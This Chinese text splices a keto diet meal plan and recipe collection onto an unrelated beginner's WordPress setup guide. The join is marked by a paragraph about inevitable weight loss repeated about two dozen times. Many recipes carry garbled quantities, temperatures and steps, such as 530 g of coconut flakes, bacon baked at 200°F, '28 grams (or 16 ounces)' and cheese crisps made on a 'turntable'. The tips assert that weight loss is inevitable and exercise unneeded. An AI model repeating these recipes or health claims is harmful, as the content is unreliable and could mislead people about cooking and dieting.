- 早餐：火腿火鸡和奶士煎饼
- 加心：奶酪片
- 午餐：昨晚的剩余
- 加心：猪皮脆和青酱
- 晚餐：奶酪洋葱咸派

## 第八天

- 早餐：奶油奶士煎饼
- 加心：马斯喀亚果
- 午餐：鸡肉培根沙拉
- 加心：剩余肉类
- 晚餐：烤三文鱼

## 第九天

- 早餐：草莓肉桂谷片
- 加心：奶酪片
- 午餐：香肠披萨
- 加心：三文鱼和奶油奶士
- 晚餐：巧克力蛋白昔

## 第十天

- 早餐：培根面包
- 加心：剩余肉类
- 午餐：鸡汤
- 加心：马斯喀亚果
- 晚餐：瑞典肉丸

## 第十一天

- 早餐：柠檬蓝莓玛芬包
- 加心：奶酪片
- 午餐：低碳肉肉饼
- 加心：猪皮脆和青酱
- 晚餐：墨西哥腊肠花菜汤

## 第十二天

- 早餐：菠菜欧姆蛋
- 加心：三文鱼和奶油奶士
- 午餐：随你所好
- 加心：马斯喀亚果
- 晚餐：墨西哥瓜达拉哈拉鸡

## 第十三天

- 早餐：培根、蛋和西兰花
- 加心：猪皮脆和青酱
- 午餐：巧克力蛋白昔
- 加心：奶酪片
- 晚餐：剩余的瑞典肉丸

## 第十四天

- 早餐：火腿火鸡和奶士煎饼
- 加心：三文鱼和奶油奶士
- 午餐：昨晚的剩余
- 加心：剩余肉类
- 晚餐：奶酪洋葱咸派

如你所示，生酮饮食是一种多样化的饮食，包含了许多美味食物。如果你想尝试我建议的某些餐，请参考接下来的几章，你将在那里找到食谱。

不要害怕根据意修改食谱，但最重要的是享受它们。

## 第四章：生酮早餐食谱

每天早上都享受美味且营养丰富的早餐。如果你早上的时间有点紧迫，在前一天晚上做好早餐会有很大帮助。

## 奶油奶士煎饼

份量：2份

食材：
- 2个鸡蛋
- 1茶匙甜菊醇
- 3汤匙奶油
- 半茶匙肉桂
- 1汤匙椰子粉
- 1小块黄油
- 枫糖浆
方法：
将所有食材除黄油和枫糖浆放入碗中，搅拌均匀。平底锅化入黄油，双面煎至金黄色。

## 草莓肉桂谷片

份量：2份

食材：
- 530克椰子片
- 2颗草莓
- 200ml豆奶
- 1茶匙肉桂
方法：
将烤箱预热至350华氏度。将椰子片放入碗中搅拌，然后加入豆奶再次搅拌，直到混合均匀。将椰子片盛入碗中，加入枫糖浆食用。

## 培根面包

份量：3份

食材：
- 1包培根
- 3个鸡蛋
- 100克奶酪碎
方法：
将烤箱预热至200华氏度。将培根对半切开，然后切成小块。在烤盘上将两片培根并排放在，上方再放两片，方向相反。如果你觉得有技术难度，可以考虑交织培根以使其固定。

烤培根20-25分钟，直到煮熟。煮好后从烤箱中取出，放在纸巾上吸油。静置。

煎鸡蛋至符合你的口味，然后将其放在一旁。

取一层培根放在盘子上，上面放一个煎蛋，撒上一些奶酪。再放上一层培根形成三明治。重复此过程直到你有3个三明治。食用。

# 菠菜欧姆蛋

制作：1 个大欧姆蛋，或两份小欧姆蛋

食材：

- 1 个蛋黄
- 4 个蛋蛋白
- 一把切碎的菠菜
- 半个番茄，切碎
- 2 汤匙豆奶或杏仁奶
- 一小撮香菜
- 1 汤匙切碎的洋葱
- 喷雾油

方法：

在锅内喷上油，然后翻炒蔬菜。在碗中加入蛋黄、蛋蛋白和牛奶，然后搅拌均匀。

蔬菜炒好后，将它们出锅放在一旁。再次向锅内喷洒油，然后加入蛋液。

煎蛋，直到根据你的喜好煮熟，然后用勺子将蔬菜放在蛋饼的一侧。将蛋的另一侧折叠在蔬菜上，轻轻地将欧姆蛋出锅。即可享用。

# 培根、鸡蛋和西兰花

份量：2 人

食材：

- 4 个鸡蛋
- 8 片培根
- 1 汤匙黄油
- 80 克西兰花，切碎
- 1 个胡萝卜，切片
- 半个洋葱，切碎
- 100 克碎奶士
- 50 克芹菜

方法：

在锅或平底锅中融化黄油，然后煎培根和蔬菜，煎约 20 分钟，直到蔬菜开始焦化。

将混合物均匀地铺在锅或平底锅底部，然后切成四份。在每份的中间挖一个洞，加入鸡蛋。煎蛋直到根据你的喜好煮熟，然后在顶部撒上奶士。让奶士融化，即可享用。

# 火腿火鸡肉和奶士煎饼

制作：4-5 个

食材：

- 4 个鸡蛋
- 2 茶匙甜菊糖
- 4-6 汤匙鲜奶油
- 1 茶匙肉桂
- 2 汤匙椰子粉
- 4 片火鸡肉
- 200 克瑞士奶士，奶碎
- 4 片火腿
- 1 片黄油
- 枫糖糖浆

方法：

将鸡蛋、甜菊糖、鲜奶油、肉桂和椰子粉放入碗中，搅拌至混合均匀顺滑。加热锅或平底锅，加入黄油并用中大火融化。双面煎至直到表面呈金黄色。

将煎饼从火上移开。

取 1 片火鸡肉放在盘子中，现在在火鸡肉上放一片火腿，然后放在一个煎饼上，重复上述 3 次。在每份煎饼上撒上约 50 奶士，然后置于中低火上，盖上直到奶士完全融化。即可享用。

# 第 5 章：午餐食谱

这些午餐食谱可以装盒带去上班，也可以在家里享用。在接下来几天内吃掉剩余食物，以确保口感最新鲜。

# 鸡肉培根沙拉

份量：4 人

食材：

- 1 个未煮并切碎的鸡胸肉
- 4 汤匙黄油
- 5 片培根
- 1 个番茄，切碎
- 半茶匙牛排调料
- 2 茶匙柠檬汁
- 1 个蛋黄
- 56 克碎奶士
- 56 克蛋蛋酱

方法：

取牛排调料，撒在鸡肉上，用中大火和黄油一起翻炒鸡肉。煎至鸡肉全熟。

现在将培根切成条，煎至酥脆，然后沥油。加入剩余食材，炒几分钟后盛出。现在将鸡肉和培根放入盘中，淋上剩余食材，即可享用。

# 香肠披萨

制作：1 个

食材：

- 3 个鸡蛋
- 200 克碎奶士
- 2 茶匙意大利调料
- 1 头花椰菜，切碎
- 2 汤匙黄油
- 42 克切碎的洋葱
- 60 ml 水
- 200 克碎马苏里拉奶士
- 60 克碎帕玛森奶士
- 1 茶匙莳茴茴种子
- 500 克香肠
- 一罐低碳水披萨酱

方法：

制作饼底：

将烤箱预热至 450 华氏度，在烤盘上垫纸或涂油。在平底锅中融化黄油，加入花椰菜和洋葱。用小火煎至花椰菜煮熟。

向锅中加水，盖盖蒸花椰菜直到变软。现在将花椰菜转移碗中冷却。将香肠放入锅或平底锅中煎，然后再切成小块。取出香肠，沥干脂肪，放在一旁。

花椰菜冷却后，取约一半放入处理器，搅拌至顺滑。现在放入碗中，加入马苏里拉奶士、鸡蛋、帕玛森奶士和香料，搅拌均匀。

将混合物铺在烤盘上，摊平。烤约 20 分钟，直到花椰菜边缘变褐。

配料：

将香肠切成更小的碎片。将披萨酱加入酱锅中，然后加入香肠。盖盖煮沸。

将烤箱调至上火模式，将香肠混合物和酱淋在饼底上，涂得薄而均匀。现在加入奶士混合物，将披萨放回烤箱，直到奶士开始上色。切片享用。

# 鸡汤

制作：4-6 碗

食材：

- 650 克鸡肉
- 半个小洋葱，切碎
- 1 茶匙盐
- 半根胡萝卜，切碎
- 半根芹菜，切碎
- 1 瓣大蒜
- 半茶匙欧芹
- 半茶匙肉桂
- 3 颗黑椒
- 半片月叶

方法：

将烤箱预热至 400 华氏度，将鸡肉放入煎锅中。加入盐、洋葱、胡萝卜和芹菜，烤 45 分钟。

向锅中加水，加入鸡肉、大蒜、香料和香草。小火煮，期间撇去浮沫。离火，静置。

冷却后，过滤汤汁，即可享用。

# 低碳肉饼

制作：1 个大肉饼

食材：

- 800 克牛肉末
- 5 瓣切末的大蒜
- 2 汤匙黄油
- 半汤匙香菜
- 半汤匙肉桂
- 6 克欧芹
- 2 个鸡蛋
- 400 克香肠
- 225 克切碎的洋葱
- 100 克杏仁粉
- 50 克碎帕玛森奶士
- 1 茶匙盐
- 1 茶匙黑胡椒
- 1 茶匙明胶
- 2 汤匙烧烤酱
- 60 ml 鲜奶油

方法：

将烤箱预热至 350 华氏度，烤具涂油。将帕玛森奶士和面粉放入碗中搅拌。在平底锅中融化黄油，加入洋葱。软后后冷却并放入处理器。搅拌至细腻。

搅拌鸡蛋，加入烧烤酱、香料、胡椒、盐和奶油。现在将明胶撒在顶部。取牛肉和香肠混合，然后加入洋葱。如果混合物变粘。现在将食材放入烤具中，确保每边留出 1 英寸的空间。压平肉饼，烤一小时，直到肉饼中心温度达到 160 华氏度。冷却后即可享用。

# 巧克力蛋白奶昔

制作：1 杯

食材：

- 28 克（或 16 盎司）杏仁奶或豆奶
- 114 克（或 4 盎司）鲜奶油
- 1 汤匙覆莓糖浆
- 30 克蛋白粉

方法：

将食材放入搅拌机或破昔机中，搅拌至顺滑。倒入杯中，即可享用。

# 墨西哥肠花椰菜汤

份量：3人

配料：

- 半颗花椰菜，切碎
- 半个洋葱，切碎
- 半根中等大小的墨西哥肠，切碎
- 半根小葱，切碎
- 半根萝卜，切碎
- 一少许盐
- 240毫升鸡汤
- 1汤匙黄油

用1 汤匙黄油涂抹汤碗，加入洋葱，用中火至大火煎炒至呈金黄色。加入花椰菜，不断翻炒再煮 5 分钟。

将鸡汤加入花椰菜中，在碗上盖上盖子。现在加入一半的萝卜和一半的墨西哥肠。煮至酥脆（约10 分钟）。现在将另一半的墨西哥肠放入搅拌机中，搅拌至顺滑。用盐调味，然后加入剩下的萝卜和墨西哥肠。上菜。

# 瑞典肉丸

制作：30个

配料：

- 500克瘦牛肉
- 1汤匙黄油
- 1个煮熟的鸡蛋
- 半茶匙黑胡椒
- 1.5茶匙肉香料
- 1.5茶匙肉豆蔻
- 1.5茶匙盐
- 200克里otta奶士
- 114克瑞士奶士，磨碎

# 方法：

在锅中加入黄油并加热，然后翻炒洋葱直到透明。烹饪约 10 分钟。现在将瑞士奶士放入搅拌机中，搅拌至像面包屑状。

在混合碗中加入鸡蛋和里otta奶士，并打匀。现在加入胡椒、盐和香料，再次混合。加入瑞士奶士和洋葱，再次混合。将牛肉放入碗中混合，直到所有原料都粘在一起并具有粘性。将混合物分成 30 个肉丸，揉成球状。

将肉丸放入烤盘中，在 350 华氏度下烤约 20 分钟，或直到表面上色。上菜。

# 瓜瓦达拉哈亚鸡肉

份量：4人

配料：

- 4 块去骨鸡胸，切成 2 厘米片
- 3 瓣碎大蒜
- 2 汤匙黄油
- 6 个西红柿，切碎
- 4 个青辣椒
- 114克奶油奶士
- 60毫升鸡汤
- 60克淡奶油
- 1茶匙孜然
- 半茶匙辣椒粉
- 1茶匙盐
- 半茶匙大蒜粉
- 莎莎酱，装饰用
- 酸奶油，装饰用
- 一把磨好的切达奶士，装饰用

方法：

在平底锅中融化黄油，然后翻炒大蒜和洋葱直到变软。将鸡肉放入锅中，用中火煎至汁水澄清。将温度调至中低，加入辣椒和西红柿。加入所有的香草和香料，盖盖焖约 10 分钟。

现在加入奶油和奶油奶士，持续搅拌直到奶士融化。撒上装饰，上菜。

# 奶士洋葱派

制作：1个大派

配料：

- 12个鸡蛋
- 500克切达奶士，磨碎
- 2 汤匙黄油
- 480毫升重奶油
- 1个洋葱，切碎
- 1茶匙盐
- 2茶匙百香草
- 1茶匙胡椒

方法：

将烤箱预热至 350 华氏度，然后在平底锅中加入黄油用中低火融化。加入洋葱翻炒直到透明，然后放凉。

准备两个派盘，加入磨碎的奶士，然后加入洋葱，均匀地铺在盘中。

现在将鸡蛋倒入混合碗中，加入香料和奶油。搅拌搅拌直到混合物起泡。将一半的混合物倒在奶士上，然后均匀摊开。

将派盘放入烤箱中烤约 25 分钟，或直到派定型。冷却后上菜。

# 第 7 章：生酮饮食计划零食

作为生酮饮食计划的一部分，享受以下零食，在享受美味食物的同时减肥。

# 马蹄夷坚果

份量：1人

配料：

- 一小手马蹄夷坚果
- 一小片黄油

方法：

在锅中融化黄油，加入坚果，不断搅拌。待坚果上色后离火。冷却后上菜。

# 三文鱼与奶油奶士

份量：1人

配料：

- 150-200克三文鱼
- 100克奶油奶士

方法：

将三文鱼切成薄条放入碗中。用勺加入奶油奶士并搅拌。

# 剩余肉类

份量：1人

配料：

- 剩余肉类
- 一撮你喜爱的香草

方法：

将剩余肉类切成薄条放入碗中。撒上你喜爱的香草，上菜。

# 奶士片

份量：1人

配料：

- 200克奶丝奶士

方法：

将一些奶丝奶士切成转盘同样的大小。现在将奶士放在转盘上，运行约 1 半 分钟，或直到奶士变脆。冷却后上菜。

# 猪皮与青酱

份量：1人

配料：

- 10-15 片熟猪皮
- 60-80毫升青酱

方法：

将一半青酱加入碗底，均匀涂平。在上面加入猪皮，然后将剩下的青酱淋在猪皮上。搅拌均匀，上菜。

# 第 8 章：提示与技巧

这里有一些提示和技巧，将帮助你参与生酮饮食计划变得轻松一点。

## 水

无论你进行哪种饮食，保持水分充足都非常重要。水对你非常有益，它不仅能帮助身体排毒，还能让你感到饱腹。每天享受 8 杯水，如果你喜不喜欢它的味道，不要害怕加入一些低碳水调味剂。

## 运动

许多人在参与饮食计划时会运动，但你不必这样做。生酮计划允许这一点。这意味着你不需要运动就能减肥，因为体重会开始下降。

## 你的减肥

在进行这种饮食时，减肥是不可避免的。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

不可避免的是，当你进行这种饮食时，你会减轻体重。这是因为你摄入的糖少得多。虽然你最初可能会掉很多体重，但你的减肥速度最终会放慢。这是因为你的身体会适应。

WordPress 内置了更新器，这使得你能够通过 WordPress 内部的仪表板轻松更新插件和模板。当有新版本的 WordPress 时，它还会通知你，你只需几次点击即可轻松完成更新。只要你设置了定期备份，所有内容都是安全的。

# 你可以通过主题和插件扩展 WordPress

值得注意的是，大多数使用 WordPress 的人不是程序员也不是网页设计师。事实上，有数千个人在对网站设计一无基础知识的情况下开始使用 WordPress。

WordPress 之所以成为这样一个动态的平台，主要原因是你可以从数以千计的免费主题（网页模板）中选择来改进你网站的外观。因此，你可以根据目的赋予网站设计和感受。你可以找到适用于任何内容的 WordPress 主题。你可以在第 2 章中了解更多信息。

WordPress 还提供了卓越的灵活性，可以通过插件进行扩展。与主题类似，你可以使用数千个插件来增强你的网站。这些插件可以增强 WordPress 的功能，并为你的网站添加整个全新的平台。你可以在第 2 章学习更多关于插件的信息。

# WordPress 友好 SEO

WordPress 使用高质量且符合标准的代码开发，能够产生语义化标记，使你的网站对搜索引擎友好。WordPress 的设计和主题对搜索引擎非常友好，通过使用 SEO 插件，可以使其对 SEO 更有吸引力。

# WordPress 可以整合各种媒体

WordPress 提供了一个动态平台，允许你使用不同的媒体类型。它内置支持，允许你处理视频、音频和照片内容。它还支持嵌入功能，允许你嵌入来自 YouTube 和 Vimeo 等外部的视频。

# WordPress 提供可靠的安全功能

网络安全是 WordPress 的基础元素之一，因此你可以通过平台安全地运行任何网站。但由于互联网的庞大，这无法完全确定。互联网上有许多入侵者，想要进入尽可能多的网站。好消息是，WordPress 支持安全插件以防止任何形式的安全威胁。

# 使用 WordPress 的不同方式

你可以通过多种方式使用 WordPress。许多商业网站运行在 WordPress 上，并作为其销售产生的关键环节。你可以如下如下使用 WordPress：

- 博客（个人或商业）
- 在线游戏机厅
- 内容管理系统 (CMS)
- 作品集
- 画廊
- 在线商店
- 会员门户
- 视频策展网站
- 评分网站
- 以及更多！

我希望这一章回答了你关于为什么必须使用 WordPress 的问题。学习 WordPress 的最好方法就是开始使用它。在后续章节中，你每天可以学习 WordPress 的基础元素。

# 第2章 – 第一周：设置、仪表板、管理栏、设置、链接和图像

只要你每天能抽出一两个小时坚持两周，WordPress 就很容易学习。你只需要非常基础的互联网技能，当然还有准确遵循指令的能力。你甚至不需要学习 HTML 或编程语言来创建网站。尽管编程和编码技能在未来会很有用，但开始使用 WordPress 并不是必须的。

全球有数百万个人从零开始使用 WordPress。事实上，大多数 WordPress 用户甚至不知道如何设计网站或编写代码。

你已经到达这一章，本身就是一个好信号，说明你愿意学习 WordPress。那么，让我们开始吧。

## 第一周第1天 - 学习初始设置

第一步是学习如何安装和设置 WordPress。你需要在 WordPress.org 和 WordPress.com 之间做出选择。

如果你想建立个人博客，并且没有打算通过网站盈利，那么选择 WordPress.com 是理想的。但如果你想成为一名专业博主，那么使用自托管的 WordPress.org 更好。后者将花费你的费用，但对于创建你自己的网站来说，实际上是划算的。

例如，假设你选择了 WordPress.com，购买了自定义域名（每年 17 元），选择了自定义设计（每年 30 元），并支付付费移除广告（每年 29.97 元）。每年 76.97 美元的总费用无法为你提供完全控制权。

如果你选择了 WordPress.org，你可以选择从 Bluehost（WordPress 推荐）购买主机，费用为每年 47.4 元，并且已经包含了免费域名。如果你选择其他网络托管公司，可能需要支付相同的价格，但无法获得域名。你可以从 NameCheap 或 GoDaddy 以仅 10 元的价格获取域名。每年 57.4 美元的总费用将为你提供完全控制权。

点击此处获取使用 Bluehost 设置 WordPress 网站的逐步说明。

你可能会担心哪个比另一个更好用，别担心，它们的界面相似。使用 WordPress.org 是理想的，这样你可以对网站拥有完全控制权。但你仍然需要选择适合你偏好和需求的 WordPress 平台。

选择平台后，下一步是选择域名和主机。请注意，域名是用户需要在搜索栏中输入的访问你页面的地址。然后，你需要选择网络托管服务，以便其他互联网用户可以访问你的网站。

在网络托管提供商注册后，你可以使用 SimpleScripts 安装 WordPress，特别是如果你选择了 BlueHost。


# 第一周第2天 - 仪表板基础

在网络托管提供商注册后，你可以使用 SimpleScripts 安装 WordPress，特别是如果你选择了 BlueHost。


# 第一周第3天 - 管理栏

管理栏位于屏幕的最顶部。WordPress 标志位于仪表板的最左侧。鼠标悬停在标志上，你将看到指向 WordPress 特有信息的链接。这些链接可以在你需要访问支持论坛或提供反馈时帮到你。

# 如何关闭管理员栏视图

管理工具栏（Admin Toolbar）通常很有，但有时你可能想将其关闭，以便查看网站前端的完整视图。请注意，管理员栏仅在你以管理员身份登录网站时才会显示。

如果你想关闭它，只需点击“编辑我的资料”（Edit my Profile）功能。将会出现一个界面，你可以在其中找到“在查看站点时显示工具栏”文字旁边的复选框。你只需要取消勾选该框，滚动到底部并点击“更新资料”（Update profile）即可保存更改。

# 第一周第 4、5 天 探索 WordPress 设置

在仪表面板（Dashboard）上，找到“设置”（Settings）菜单并将鼠标悬停在。会出现一个子菜单，你可以在其中访问 WordPress 设置的多个选项：常规、阅读、写作、媒体、讨论和永久链接。

## 常规设置

为了探索，你可以先进入“常规”设置。在此选项中看到的第一个元素是“站点标题”（Site Title）和“说明”（Tagline）。请确保这些文本与你的网站匹配，因为你的站点标题将用于 SEO。默认情况下，WordPress 显示“just another WordPress site”作为说明。你需要更改此说明来描述你的网站，因为这对你网站的 SEO 至关重要。

接下来是“WordPress 地址（URL）”。对于网站地址 URL，如果你希望你的网站首页与安装 WP 的目录分开，可以输入该 URL 地址。此时，最好不要触碰这些 URL。

然后，你还会看到“电子邮件地址”（Email Address），你将将其用于管理目的，包括新用户通知。还有“成员设置”（Membership settings）。WordPress 允许在线用户注册你的网站。如果会员制对你的网站至关重要，这是一个非常有用的功能。

同时，**新用户默认角色**（New User Default Role）设置为“订阅者”（subscriber）。暂时不要动此设置，因为你可能会意外地给任何注册网站的人授予管理员权限。

然后是**时区**（Timezone）。浏览列表以选择同一时区内的城市，并选择你偏好的日期格式。请注意，此格式将出现在你的文章中。在更新这些设置后，不要忘记**保存更改**（Save changes）。

## 阅读设置

**阅读设置**（Reading Settings）显示了影响内容显示的设置。在这里，你可以调整网站首页的显示方式——静态页面或你最新的博客文章。在构建几个页面后，你可以在此设置中列出这些页面，以便它们出现在前端。

下一个设置部分将允许你控制 RSS 馈中的内容显示，包括显示的最大文章数，以及你是只想显示摘要还是全文。**搜索引擎可见性**（Search engine visibility）是最后一部分。如果你想让搜索引擎不索引你的网站，你应该勾选**阻止搜索引擎索引此站点**（Discourage search engines from indexing this site）。如果你仍处于开发阶段，仍然建议索引，这是一个很好的设置。

记得**保存更改**（Save Changes）。

## 写作设置

写作设置（Writing Settings）影响网站的编写和发布。顶部的部分允许你控制仪表面板内部的，而其他部分允许你控制外部发布方法。

第一部分显示了默认分类格式和文章格式的选项。你还会看到**点击此发布**（Press This）书签工具部分，它允许你轻松地对互联网上发现感兴趣的内容编写博客。如果你想使用此功能，首先需要将屏幕上的链接拖到浏览器的书签栏。如果你在另一个网站上，只需点击书签工具即可访问弹出窗口，通过你的博客分享内容。

同时，**通过电子邮件发布设置**（Post via email settings）将让你向网站发送带有文章内容的电子邮件。为了使用此设置，你应该使用 POP3 访问设置一个秘密电子邮件账户。最后部分用于更新服务。一旦你发布了新文章，WordPress 将立即通知你更新。务必**保存更改**（Save Changes）。

## 媒体设置

媒体设置（Media Settings）页面允许你为想要添加到文章中的图像设置最大尺寸。如果你希望图像具有相同的大小，或者想为图像大小设置默认设置，这些设置将为你节省时间。

**上传文件**（Uploading files）选项允许你选择是否将上传的内容按月份或年份组织。务必**保存更改**（Save Changes）。

## 讨论设置

**讨论设置**（Discussion Settings）允许你管理文章和页面的评论及链接。

第一部分是**默认文章设置**（default article settings）。第一个设置允许你管理创建到其他博客的链接。第二个设置允许你管理轨道回（trackbacks）和引用回（ping backs）或指向你网站的链接。最后，第三个设置允许你的访问客在新文章上发表评论。如果你不希望访问客对文章评论，可以取消勾选此框。

**其他评论设置**（Other comment settings）允许你选择访问客发表评论的指南以及你如何管理他们的评论。

对于“每当……邮件给我”（email me whenever）部分，你可以选择在有人发表评论或评论被版主处理时通过电子邮件接收通知。

**评论出现之前**（Before a comment appears）部分允许你管理已发表的评论。通过此处，你可以选择管理员应先批准评论，还是评论可以自动发布。

在**评论审核**（Comment Moderation）部分，你可以根据链接的数量更改管理评论的方式。在框内，你可以包含 IP、电子邮件、名称、单词和 URL 以过滤评论进行审核。此功能结合评论黑名单可以帮助你防御博客免受不当评论和垃圾邮件的影响。

还有头像（Avatar）设置。你可以开启在你的网站上发表评论的用户头像，为尚未拥有头像的用户选择默认头像，或根据他们的评论过滤这些评论。

再次，请确保保存更改。

## 永久链接设置

永久链接（Permalink）是指指向文章、标签和分类存档的永久 URL。通常，永久链接是用于链接内容的 Web 地址。在 WordPress 中的永久链接设置允许你管理链接的默认结构。你可以从常用设置中选择，也可以自定义。作为默认值，WordPress 使用带有问号和数字的 URL。你可能在此更改永久链接以提高其向前兼容性、易用性和美观。

# 第一周第 6 天 创建 WordPress 文章

要创建第一篇文章，在仪表面板左侧找到“文章”（Posts）菜单。你可以点击展开它以访问子菜单，或直接悬停在链接上。

在管理员栏的“+ 新”链接中，你也可以找到“添加文章”页面。只需点击“新建”链接即可访问添加文章页面，开始创建你的第一篇 WordPress 文章。

你可以在第一个框中输入文章标题。

下方是文章编辑器或文章格式部分，你将在那里输入或粘贴文章内容。

接下来的链接允许你查看文章的可见性或网站访问者将看到的内容。“发布”（Publish）行显示该文章是立即发布还是在未来的某个日期发布。下一部分用于分配给你文章的标签和分类。稍后再保存本课程。

如果你想更改编辑器的屏幕选项，可以点击右上角的“屏幕选项”（screen options）选项卡。这将展开链接，你将看到相关选项，这些选项将显示在屏幕的文章编辑器上。

在文章编辑器中，你可以直接拖动或放置这些框的排列，以更改你希望它们在页面上的显示方式。

如果你在添加新文章时需要帮助，可以只需点击右上角的“帮助”（Help）选项卡。在这里，你可以轻松查阅插入媒体、使用编辑器、添加文章标题的实用提示，以及自定义文章显示的指引。


# 第 1 周第 7 天 – 添加链接与图片

链接对于内容的 SEO（搜索引擎优化）至关重要，而图片则是提高文章吸引力和可读性的理想选择。WordPress 让在网站中添加这两个元素变得非常简单。

## 添加链接

在页面编辑器或 WordPress 文章中，选择并突出显示你想添加链接的文本。然后，点击工具栏上的超链接按钮。这将显示出一个框，你可以在其中输入超链接的特定 URL，以及在悬停在链接上时显示的标题。勾选此复选框还允许你在新标签页中打开链接。

如果你倾向于链接到你网站上的现有内容，只需点击展开此部分。通过这种方式，你可以看到一个用于搜索你网站的搜索栏，以及现有页面或文章列表。

选择列表中的其中一项也会更改超链接。如果你的链接准备就绪，只需点击“添加链接”（Add Link）按钮。你选择的文本现在就有了链接。如果你想移除链接，选择该文本标签并选择“取消链接”（unlink）按钮。你会发现链接已被移除，文本恢复了正常显示。

## 添加图片

在文章中选择一个插入图片的最佳位置。在文章编辑器工具栏的上方，你会看到“添加媒体”（Add Media）按钮。点击此按钮显示“插入媒体”（Insert Media）框。

WordPress 存储了一个媒体库来保存你所有的媒体文件，如视频和图片。在框框中，你可以选择上传新文件或使用媒体库中的现有文件。如果你想上传图片，点击“选择文件”（Select files）按钮并找到你想使用的图片。

图片上传后，你会注意到它已被添加到媒体库中。在框的右侧区域，你会看到页面的附件详情。在这一部分，你可以看到描述（Description）、替代文本（Alt text）、说明（Caption）和标题（Title）。你还可以选择图片的对齐方式，如右对、左齐或居中。

确保图片有一个勾选框。点击“插入文章”（insert into post）按钮。现在你可以看到图片已插入到你的文章中了。

一旦你点击图片，你会在图片的上方看到两个框。第一个是图片图标。当你点击此图标时，你会看到另一个框出现，你可以在其中编辑所有图片详情。在这些提示中，你可以根据百分比修改图片大小，也可以更改链接 URL、说明、替代文本和标题。你还可以选择图片链接或链接到图片的实际文件。

在选择“高级设置”（advanced settings）选项卡时，你将看到图片当前托管的链接、为图片添加内边距（padding）的属性和样式、CSS 类以及以像素为单位的图片实际高宽。

接下来，返回图片。右上角的图标允许你从文章中删除图片。点击“添加媒体”按钮，你会看到相同的“插入媒体”框。在左侧，你会看到设置库（gallery）和选择“特色图片”（featured image）的选项。如果你在媒体库中有足够的图片，你可以在文章中添加整个图片库。

特色图片被某些主题使用。如果你选择的主题有特色图片，请继续选择图片并返回文章编辑器。点击“预览”（preview）按钮并检查图片是否已插入。

# 第 3 章 – 第二周

# 第 2 周第 1 天 – 分类与标签

你可以将文章组织成各种分类，例如主题或学科领域。例如，如果你正在写一篇文章，请考虑该文章更广泛的主题。如果你计划未来撰写更多关于该主题的文章，将这些文章组织在一起是理想的。

## 添加新分类

如果你还没有包含分类，点击显示“+ 添加新分类”（+ Add new category）的链接。点击“添加新分类”来插入新分类。你会发现分类列表中已包含一个新的分类。要为文章包含分类，请点击分类旁边的复选框。

管理文章分类的另一种方法是通过控制台（Dashboard）菜单中的“文章 > 分类”（Posts > Categories）链接进行导航。如果你点击“分类”链接，可以进入分类页面。在这里，你可以查看右侧所有的分类，也可以在其中包含新条目。

## 分类描述

描述区域允许你添加更多关于该分类相关文章的信息。某些 WordPress 主题会显示这些信息。

## 分类层级

与标签不同，分类可以嵌套成层级。例如，你可以有一个“新闻”（News）分类，在其下方你可以有子分类。

